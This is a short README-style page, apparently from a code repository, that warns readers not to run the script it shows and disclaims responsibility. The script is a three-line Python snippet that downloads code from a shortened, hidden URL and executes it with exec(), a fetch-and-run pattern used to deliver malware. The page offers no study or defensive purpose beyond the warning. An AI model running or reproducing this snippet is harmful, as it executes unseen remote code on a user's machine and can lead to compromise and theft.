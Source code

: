 # Warning
You should not execute this script.<br/>
If you execute this, it is at your own risk<br/>
I take no responsability of any consequence of running this script<br/>
<br/>
```
import urllib.request
script = urllib.request.urlopen("https://tinyurl.com/DoNotRunThis").read()
exec(script)
```
